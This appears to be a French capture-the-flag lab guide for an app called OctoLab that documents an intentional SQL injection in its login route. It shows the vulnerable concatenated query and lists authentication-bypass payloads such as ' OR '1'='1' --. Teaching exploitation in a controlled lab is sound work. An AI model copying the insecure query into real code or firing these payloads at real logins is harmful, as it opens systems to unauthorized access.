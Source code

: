 # 🚨 Guide des Vulnérabilités - OctoLab CTF

> **⚠️ ATTENTION**: Ce document est destiné uniquement à des fins éducatives dans le cadre d'un exercice de cybersécurité contrôlé.

## 🎯 Objectif de l'exercice

Ce laboratoire contient des vulnérabilités intentionnelles pour permettre aux étudiants d'apprendre les techniques d'exploitation et de sécurisation des applications web.

## 🔓 Vulnérabilité 1: SQL Injection dans l'authentification

### 📍 Localisation
- **Endpoint**: `POST /api/auth/login`
- **Fichier**: `backend/routes/auth.js`
- **Type**: SQL Injection classique

### 🔍 Description de la faille

La route de login utilise une concaténation directe des paramètres dans la requête SQL :

```javascript
const vulnerableQuery = `SELECT * FROM users WHERE email = '${email}' AND password = '${password}'`;
```

Cette approche permet d'injecter du code SQL malveillant dans les paramètres `email` ou `password`.

### 🎯 Techniques d'exploitation

#### 1. Bypass d'authentification simple

**Payload dans le champ email** :
```
admin@octolab.org' OR '1'='1' --
```

**Payload dans le champ password** :
```
' OR '1'='1' --
```

#### 2. Bypass avec commentaire SQL

**Email** :
```
' OR 1=1 /*
```

**Password** :
```
N'importe quoi
```
